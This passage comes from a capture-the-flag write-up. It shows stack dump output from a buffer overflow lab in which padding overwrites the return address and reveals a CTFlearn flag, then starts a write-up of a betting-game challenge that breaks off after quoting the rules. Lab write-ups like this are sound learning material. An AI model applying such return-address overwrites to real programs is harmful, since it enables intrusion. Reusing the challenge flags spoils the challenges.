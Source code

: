 ```python
0xffb80d38 | 00 00 00 00 00 00 00 00 |
0xffb80d40 | ff ff ff ff ff ff ff ff |
0xffb80d48 | ff ff ff ff ff ff ff ff |
0xffb80d50 | c0 a5 70 f7 00 a0 04 08 |
0xffb80d58 | 68 0d b8 ff 8b 86 04 08 |
Return address: 0x0804868b

Input some text: 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffb80d20 | 41 41 41 41 41 41 41 41 |
0xffb80d28 | 41 41 41 41 41 41 41 41 |
0xffb80d30 | 41 41 41 41 41 41 41 41 |
0xffb80d38 | 41 41 41 41 41 41 41 41 |
0xffb80d40 | 41 41 41 41 41 41 41 41 |
0xffb80d48 | 41 41 41 41 41 41 41 41 |
0xffb80d50 | 41 41 41 41 41 41 41 41 |
0xffb80d58 | 41 41 41 41 \x1b[0;31;1m86 85 04 08 |
Return address: 0x08048586

CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
```

# Lazy Game Challenge
> I found an interesting game made by some guy named "John_123". It is some betting game. I made some small fixes to the game; see if you can still pwn this and steal $1000000 from me!

This is a very easy challenge as there is no source code to review.

The challenge simply gets the user to connect to the server and play a betting game where they reckon you won't get more than $1000000 at the end.

The rules of the game are given to us at the start:

```python
Rules of the Game :
(1) You will be Given 500$
(2) Place a Bet
(3) Guess the number what computer thinks of !
(4) computer's number changes every new time !.
(5) You have to guess a number between 1-10
(6) You have only 10 tries !.
(7) If you guess a number > 10, it still counts as a Try !
(8) Put your mind, Win the game !..
(9) If you guess within the number of tries, you win money !
(10) Good Luck !..
```

We know a few things right of the bat that we have 500 dollars at the start and betting on a game where if we lose the money will be deducted from our account and we only have 10 guesses.
